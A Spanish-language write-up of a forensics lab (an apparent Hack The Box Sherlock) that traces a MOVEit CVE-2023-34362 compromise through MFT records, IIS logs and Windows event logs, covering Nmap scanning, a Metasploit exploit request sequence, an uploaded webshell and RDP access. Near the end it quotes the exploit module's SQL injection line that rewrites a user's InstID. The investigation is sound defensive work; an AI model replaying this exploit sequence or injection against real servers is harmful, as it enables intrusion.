# **Descripción**

Este Sherlock tiene como temática el análisis forense de un servidor que fue comprometido por una vulnerabilidad relacionada con la app MOVEit (CVE-2023-34362). Si te interesa obtener información detallada sobre esta vulnerabilidad, puedes echarle un ojo al articulo [MOVEit Transfer CVE-2023-34362 Deep Dive and Indicators of Compromise](https://horizon3.ai/attack-research/attack-blogs/moveit-transfer-cve-2023-34362-deep-dive-and-indicators-of-compromise/) publicado por Horizon3.

---

## **Artefactos**

Para este lab se proporcionaron muchos artefactos, y por la estructura de los archivos, estos fueron parte de una recolección automatizada por Kape.

```
Triage/
    results/
    uploads/
    collection_context.json
    log.json
    log.json.index
    requests.json
    uploads.json
    uploads.json.index
I-like-to-27a787c5.vmem
```

Al final también se encuentra un *dump* de VMware, pero al no contar con los metadatos necesarios, no se podrá utilizar `volatility`.

---

## **Herramientas**

Las utilidades necesarias para la resolución de este lab son las siguientes:

- `EvtxECmd`
- `MFTECmd`
- `Timeline Explorer`

Estas herramientas fueron creadas por Eric Zimmerman y se pueden descargar desde su [*web*](https://ericzimmerman.github.io/#!index.md).

---

# **Preguntas**

## **1. *Name of the ASPX webshell uploaded by the attacker?***

Se determinó el nombre de la *webshell* ASPX que subió el atacante haciendo uso del archivo `$MFT` que se encuentra en `Triage/uploads/ntfs/%5C%5C.%5CC%3A/`.

Para poder cargar el archivo en `Timeline Explorer`, primero fue necesario convertirlo a CSV con `MFTECmd`.

```
PowerShell> .\MFTECmd.exe -f 'C:\Users\nezumigris\Desktop\iliketo\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT' --csv 'C:\Users\nezumigris\Desktop' --csvf 'MFT.csv'
MFTECmd version 1.3.0.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/MFTECmd

Command line: -f C:\Users\nezumigris\Desktop\iliketo\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT --csv C:\Users\nezumigris\Desktop --csvf MFT.csv

Warning: Administrator privileges not found!

File type: Mft

Processed C:\Users\nezumigris\Desktop\iliketo\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT in 7.6785 seconds

C:\Users\nezumigris\Desktop\iliketo\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT: FILE records found: 318,161 (Free records: 214,500) File size: 520.2MB
        CSV output will be saved to C:\Users\nezumigris\Desktop\MFT.csv
```

Una vez cargado el CSV en `Timeline Explorer`, se aplicaron los siguientes filtros:


Estos filtros buscan por archivos que se encuentren en el directorio de la app MOVEit y solo aquellos con extensión ASPX.

Dentro del directorio `wwwroot/` se encontraron muchos archivos ASPX.



Para confirmar cual fue la *webshell* subida por el atacante, se utilizó uno de los LOG disponibles entre los archivos Triage.

Este LOG se encuentra en `Triage/uploads/auto/C%3A/inetpub/logs/LogFiles/W3SVC2/` y solo registra actividad con la fecha del `12/07/23`.

```
ZSH> cut -d ' ' -f 1 u_ex230712.log | sort -u
2023-07-12
#Date:
#Fields:
#Software:
#Version:
```

Dentro de los archivos ASPX que se filtraron anteriormente, solo existe uno que coincide con esta fecha.



La *webshell* que subió el atacante fue `move.aspx`.

---

## **2. *What was the attacker's IP address?***

Para determinar la dirección IP del atacante también se utilizó el LOG `u_ex230712.log`.

El significado de cada campo dentro del LOG se explica en los comentarios al inicio del archivo.

```
ZSH> head -4 u_ex230712.log
#Software: Microsoft Internet Information Services 10.0
#Version: 1.0
#Date: 2023-07-12 10:08:39
#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken
```

El campo `c-ip` es la número 9 y corresponde con la dirección IP del cliente.

Teniendo esto en cuenta, se utilizó el nombre de la *webshell* para mostrar solo los eventos relacionados.

```
ZSH> grep 'move.aspx' u_ex230712.log
2023-07-12 11:24:43 10.10.0.25 GET /move.aspx - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 - 200 0 0 1179
2023-07-12 11:24:47 10.10.0.25 POST /move.aspx - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 https://moveit.htb/move.aspx 200 0 0 159
```

Luego, mostrando solamente el campo número 9 y quitando las repeticiones, se pudo determinar la dirección IP del atacante.

```
ZSH> grep 'move.aspx' u_ex230712.log | cut -d ' ' -f 9 | sort -u
10.255.254.3
```

La dirección IP del atacante fue `10.255.254.3`.

---

## **3. *What user agent was used to perform the initial attack?***

Siguiendo con el archivo LOG, para ver solo los eventos realizados por el atacante, se ejecutó el siguiente comando:

```
ZSH> grep '10.255.254.3' u_ex230712.log
```

Si bien este comando filtra solo lo relacionado con el atacante, siguen habiendo muchas peticiones.

Dentro de estas peticiones, existen dos tandas de peticiones que utilizan solamente la cadena `Ruby` como *user agent*.

La primera tanda es la siguiente:

```
2023-07-12 10:21:52 10.10.0.25 GET / - 443 - 10.255.254.3 Ruby - 200 0 0 78
2023-07-12 10:21:53 10.10.0.25 GET /moveitisapi/moveitisapi.dll action=m2 443 - 10.255.254.3 Ruby - 200 0 0 818
2023-07-12 10:21:53 10.10.0.25 GET /moveitisapi/moveitisapi.dll action=m2 443 - 10.255.254.3 Ruby - 200 0 0 206
2023-07-12 10:24:52 10.10.0.25 GET / - 443 - 10.255.254.3 Ruby - 200 0 0 89
2023-07-12 10:24:52 10.10.0.25 GET /moveitisapi/moveitisapi.dll action=m2 443 - 10.255.254.3 Ruby - 200 0 0 131
2023-07-12 10:24:54 10.10.0.25 POST /guestaccess.aspx - 443 - 10.255.254.3 Ruby - 200 0 0 494
2023-07-12 10:24:54 10.10.0.25 POST /guestaccess.aspx - 443 - 10.255.254.3 Ruby - 200 0 0 677
2023-07-12 10:24:55 10.10.0.25 POST /api/v1/token - 443 - 10.255.254.3 Ruby - 200 0 0 603
2023-07-12 10:24:57 10.10.0.25 GET /api/v1/folders - 443 - 10.255.254.3 Ruby - 200 0 0 920
2023-07-12 10:24:57 10.10.0.25 POST /api/v1/folders/966794435/files uploadType=resumable 443 - 10.255.254.3 Ruby - 200 0 0 303
2023-07-12 10:24:58 10.10.0.25 GET /moveitisapi/moveitisapi.dll action=m2 443 - 10.255.254.3 Ruby - 200 0 0 81
2023-07-12 10:24:58 10.10.0.25 POST /guestaccess.aspx - 443 - 10.255.254.3 Ruby - 200 0 0 187
2023-07-12 10:24:59 10.10.0.25 POST /guestaccess.aspx - 443 - 10.255.254.3 Ruby - 200 0 0 222
2023-07-12 10:24:59 10.10.0.25 GET /api/v1/files/974134622 - 443 - 10.255.254.3 Ruby - 200 0 0 191
2023-07-12 10:24:59 10.10.0.25 GET /moveitisapi/moveitisapi.dll action=m2 443 - 10.255.254.3 Ruby - 200 0 0 89
2023-07-12 10:25:00 10.10.0.25 POST /guestaccess.aspx - 443 - 10.255.254.3 Ruby - 200 0 0 166
2023-07-12 10:25:00 10.10.0.25 POST /guestaccess.aspx - 443 - 10.255.254.3 Ruby - 200 0 0 251
2023-07-12 10:25:02 10.10.0.25 PUT /api/v1/folders/966794435/files uploadType=resumable&fileId=974134622 443 - 10.255.254.3 Ruby - 500 0 0 581
2023-07-12 10:25:02 10.10.0.25 GET /moveitisapi/moveitisapi.dll action=m2 443 - 10.255.254.3 Ruby - 200 0 0 81
2023-07-12 10:25:02 10.10.0.25 POST /guestaccess.aspx - 443 - 10.255.254.3 Ruby - 200 0 0 162
2023-07-12 10:25:03 10.10.0.25 POST /guestaccess.aspx - 443 - 10.255.254.3 Ruby - 200 0 0 195
```

La cadena `Ruby` es muy sospechosa, ya que Ruby es el lenguaje con el que esta construido Metasploit. Además, este *framework* dispone de un módulo que explota la vulnerabilidad [CVE-2023-34362](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/http/moveit_cve_2023_34362.rb) relacionada con MOVEit.

Teniendo en cuenta las peticiones realizadas hacia los recursos `moveitisapi.dll` o `guestaccess.aspx`, se podría confirmar que el atacante utilizó el módulo de Metasploit anterior para su ataque inicial.

Por lo tanto, el *user agent* que se utilizó en el ataque inicial fue `Ruby`.

---

## **4. *When was the ASPX webshell uploaded by the attacker?***

Con el mismo proceso realizado en la **pregunta 1**, se puede obtener la fecha y hora en la que se subió la *webshell*.



Teniendo en cuenta la columna `Created0x10`, el atacante subió la *webshell* el `12/07/2023 11:24:30`.

---

## **5. *The attacker uploaded an ASP webshell which didn't work, what is its filesize in bytes?***

Para encontrar el archivo ASP, se utilizaron los siguientes filtros en `Timeline Explorer`:



Con estos filtros aplicados, solo se obtuvo una coincidencia.



El peso del archivo se puede ver en la columna `File Size`.



El peso de la *webshell* ASP que subió el atacante fue de `1362` bytes.

---

## **6. *Which tool did the attacker use to initially enumerate the vulnerable server?***

Retomando nuevamente con el archivo LOG, entre las primeras peticiones realizadas por el atacante se encuentran las siguientes líneas:

```
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 101
2023-07-12 10:11:15 10.10.0.25 GET /nmaplowercheck1689156596 - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 404 0 2 128
2023-07-12 10:11:15 10.10.0.25 GET / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 302 0 0 135
2023-07-12 10:11:15 10.10.0.25 POST / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 302 0 0 156
2023-07-12 10:11:15 10.10.0.25 GET /robots.txt - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 404 0 2 80
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 80
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 80
2023-07-12 10:11:15 10.10.0.25 PROPFIND / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 405 0 1 80
2023-07-12 10:11:15 10.10.0.25 PROPFIND / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 405 0 1 80
2023-07-12 10:11:15 10.10.0.25 PROPFIND / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 405 0 1 92
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 90
2023-07-12 10:11:15 10.10.0.25 GET /evox/about - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 404 0 2 91
2023-07-12 10:11:15 10.10.0.25 WURP / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 405 0 1 104
2023-07-12 10:11:15 10.10.0.25 GET /HNAP1 - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 404 0 2 98
2023-07-12 10:11:15 10.10.0.25 POST /sdk - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 404 0 2 77
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 89
2023-07-12 10:11:15 10.10.0.25 POST / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 160
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 212
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 76
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 75
2023-07-12 10:11:15 10.10.0.25 GET / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 302 0 0 128
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 47
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 47
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 102
2023-07-12 10:11:15 10.10.0.25 GET / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 232
2023-07-12 10:11:15 10.10.0.25 GET /robots.txt - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 404 0 2 72
2023-07-12 10:11:15 10.10.0.25 PROPFIND / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 405 0 1 51
2023-07-12 10:11:15 10.10.0.25 GET /nmaplowercheck1689156596 - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 404 0 2 48
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 91
2023-07-12 10:11:15 10.10.0.25 OPTIONS / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 43
2023-07-12 10:11:16 10.10.0.25 TUMV / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 405 0 1 49
2023-07-12 10:11:16 10.10.0.25 GET /.git/HEAD - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 404 0 2 48
2023-07-12 10:11:16 10.10.0.25 OPTIONS / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 92
2023-07-12 10:11:16 10.10.0.25 GET /favicon.ico - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 554
2023-07-12 10:11:16 10.10.0.25 GET /HNAP1 - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 404 0 2 50
2023-07-12 10:11:16 10.10.0.25 GET /evox/about - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 404 0 2 50
2023-07-12 10:11:16 10.10.0.25 OPTIONS / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 51
2023-07-12 10:11:16 10.10.0.25 PROPFIND / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 405 0 1 62
2023-07-12 10:11:16 10.10.0.25 OPTIONS / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 98
2023-07-12 10:11:16 10.10.0.25 POST /sdk - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 404 0 2 52
2023-07-12 10:11:16 10.10.0.25 GET /.git/HEAD - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 404 0 2 91
2023-07-12 10:11:16 10.10.0.25 OPTIONS / - 80 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 143
2023-07-12 10:11:16 10.10.0.25 PROPFIND / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 405 0 1 101
2023-07-12 10:11:16 10.10.0.25 OPTIONS / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 101
2023-07-12 10:11:17 10.10.0.25 OPTIONS / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 145
2023-07-12 10:11:17 10.10.0.25 OPTIONS / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 66
2023-07-12 10:11:17 10.10.0.25 OPTIONS / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 112
2023-07-12 10:11:18 10.10.0.25 OPTIONS / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 79
2023-07-12 10:11:23 10.10.0.25 GET / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 156
2023-07-12 10:11:23 10.10.0.25 GET / - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 0 103
2023-07-12 10:11:23 10.10.0.25 GET /favicon.ico - 443 - 10.255.254.3 Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html) - 200 0 995 198
```

Estos eventos comparten el mismo *user agent*, y este *user agent* hace referencia a una herramienta muy popular llamada Nmap.

```
Mozilla/5.0+(compatible;+Nmap+Scripting+Engine;+https://nmap.org/book/nse.html)
```

Por lo tanto, la herramienta que utilizó el atacante inicialmente para enumerar el servidor fue `Nmap`.

---

## **7. *We suspect the attacker may have changed the password for our service account. Please confirm the time this occurred (UTC)***

Dentro de los archivos Triage se encuentra el directorio `Triage/uploads/auto/C%3A/Windows/System32/winevt/Logs/` con los archivos EVTX.

Para explorar los eventos de forma sencilla, nuevamente se utilizó `Timeline Explorer`.

Primero fue necesario generar el archivo CSV y teniendo en cuenta de que se trata de archivos EVTX, se utilizó la herramienta `EvtxECmd`.

```
PowerShell> .\EvtxECmd.exe -d 'C:\Users\nezumigris\Desktop\iliketo\Triage\uploads\auto\C%3A\Windows\System32\winevt\Logs' --csv 'C:\Users\nezumigris\Desktop' --csvf 'events.csv'
```

El evento con ID [4723](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4723) registra los intentos de cambiar la contraseña de una cuenta. Pero al aplicar un filtro para este evento, no se obtiene ninguna coincidencia.

También existe el evento con ID [4724](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4724) que registra los intentos de restablecer la contraseña de una cuenta. Al aplicar un filtro para este evento si obtuvieron resultados.



Teniendo en cuenta las fechas, las últimas dos líneas son las relevantes para este caso, ya que se realizaron el `12/07/23`.



Los usuarios a los que el atacante intentó restablecer la contraseña fueron `Administrator` y `moveitsvc`, ambos del sistema `MOVER`.



El intento de cambio de contraseña de la cuenta de servicio `moveitsvc` fue el `12/07/2023 11:09:27`.

---

## **8. *Which protocol did the attacker utilize to remote into the compromised machine?***

Siguiendo con `Timeline Explorer`, el evento que registra los inicios de sesión tiene como ID [4624](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4624).

Al aplicar un filtro con este evento se obtuvieron muchos resultados, por lo que fue necesario seguir filtrando.

Para hacer esto de forma más eficiente se tuvo en cuenta el siguiente cuadro sobre los tipos de inicio de sesión, proporcionado por Microsoft:



La pregunta hace referencia a una conexión remota, por lo que se aplicó también el filtro con el tipo `10`.



Con estos filtros, se determina que el atacante realizó dos conexiones de forma remota. Pero aún así no queda claro el protocolo utilizado.

Dentro de los eventos que registra Windows, existe también el evento con ID 1149 que representa a las conexiones realizadas con RDP. Al aplicar este evento como filtro se obtiene una conexión que se realizó casi al mismo tiempo.



Con esto se confirma que el protocolo que utilizó el atacante fue `RDP`.

---

## **9. *Please confirm the date and time the attacker remotely accessed the compromised machine?***

El proceso realizado en la pregunta anterior se puede aplicar también en este caso.



El atacante accedió remotamente a la máquina comprometida el `12/07/2023 11:11:18`.

---

## **10. *What was the useragent that the attacker used to access the webshell?***

Volviendo nuevamente al archivo LOG, al filtrar los eventos con el nombre de la *webshell* se obtuvieron dos coincidencias:

```
ZSH> grep 'move.aspx' u_ex230712.log
2023-07-12 11:24:43 10.10.0.25 GET /move.aspx - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 - 200 0 0 1179
2023-07-12 11:24:47 10.10.0.25 POST /move.aspx - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 https://moveit.htb/move.aspx 200 0 0 159
```

En ambos casos el atacante utilizó el *user agent* `Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0` para acceder al recurso.

---

## **11. *What is the inst ID of the attacker?***

Para obtener el `InstID` del atacante, se utilizó el [módulo](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/http/moveit_cve_2023_34362.rb) de Metasploit mencionado en la pregunta 3.

Al filtrar el script por la cadena `InstID` se obtiene el siguiente *output*:

```
ZSH> grep 'InstID' moveit_cve_2023_34362.rb
      "UPDATE moveittransfer.users SET InstID='#{@moveit_instid}' WHERE Username='#{hax_username}'",
      # Get the InstID from the cookies
